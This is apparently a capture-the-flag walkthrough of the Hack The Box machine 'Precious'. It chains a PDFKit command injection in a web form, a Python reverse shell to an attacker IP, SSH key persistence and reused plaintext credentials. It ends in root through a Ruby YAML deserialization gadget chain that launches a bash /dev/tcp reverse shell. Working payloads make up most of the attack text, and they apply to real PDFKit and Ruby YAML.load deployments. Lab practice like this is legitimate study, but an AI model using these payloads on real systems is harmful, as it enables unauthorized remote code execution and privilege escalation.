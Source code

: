 ```yaml
---
cover: ../../../.gitbook/assets/Precious.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Precious

First, I scan the remote host.

```sh
nmap -sC -sV 10.10.11.189
```

I have 2 ports :&#x20;

<figure><img src="../../../.gitbook/assets/precious-nmap-scan.png" alt=""><figcaption></figcaption></figure>

I add vhost dns on local with `echo '10.10.11.189 precious.htb' | tee -a /etc/hosts`. The web service runs on `nginx 1.18.0`, I find a code injection for the form :

```sh
http://%20`sleep 1`		# it sleeps
```

Then I find a vulnerability on this [tool](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). I start a netcat listener on local :

```sh
nc -lnvp 1234
```

And I inject this code into the form on remote :

```
http://%20`python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect(("10.10.14.9", 1234)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'`
```

I get the reverse shell as `ruby` :&#x20;

<figure><img src="../../../.gitbook/assets/precious-reverse-shell.png" alt=""><figcaption></figcaption></figure>

I upgrade shell with `python3 -c "import pty;pty.spawn('/bin/bash')"`. I create a SSH key on local with `ssh-keygen` and I add the public key on remote `/home/ruby/.ssh/authorized_keys`. Now, I have SSH access and a real shell with `ssh ruby@precious`. I check all ruby's files with `find / -gid 1001 2>/dev/null` and there is an interesting file :&#x20;

<figure><img src="../../../.gitbook/assets/precious-check-file.png" alt=""><figcaption></figcaption></figure>

I check the file content and I find henry's credentials :&#x20;

<figure><img src="../../../.gitbook/assets/precious-henry-credentials.png" alt=""><figcaption></figcaption></figure>

Thus I can try SSH connection with `henry:Q3c1AqGHtoI0aXAYFH` such as `ssh henry@precious.htb`. It works :

```sh
cat /home/henry/user.txt
```

As `henry`, I check sudo permissions with `sudo -l` and I get :&#x20;

<figure><img src="../../../.gitbook/assets/precious-sudo-list.png" alt=""><figcaption></figcaption></figure>

I can execute with no password :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

* `secure_path` : the variable `PATH` in the command execution environment has the `secure_path` value.
* `mail_badpass` : if I fail a sudo command, it will log it.
* `env_reset` : the command is executed in a new minimal environment with these variables \[TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME, SUDO\_\*].

The `/opt/update_dependencies.rb` file's content is :

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

And the `dependencies.yaml` content is :

```yml
yaml: 0.1.1
pdfkit: 0.8.6
```

To execute the script, I have to go to specific location :&#x20;

<figure><img src="../../../.gitbook/assets/precious-exec-sudo.png" alt=""><figcaption></figcaption></figure>

The script goes right only because I'm on the `/opt/sample` path. If I go to `home/henry`, it throws an exception. Thus the script loads the `dependencies.yml` form the current working directory. I create a new `dependencies.yml` at `/home/henry` and add it the following code block :

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.9/1234 0>&1'"
         method_id: :resolve
```

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

I start a netcat listener on the local host with `nc -lnvp 1234` and execute the instruction :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

I gain root privilege on remote host !

```sh
cat /root/root.txt
```
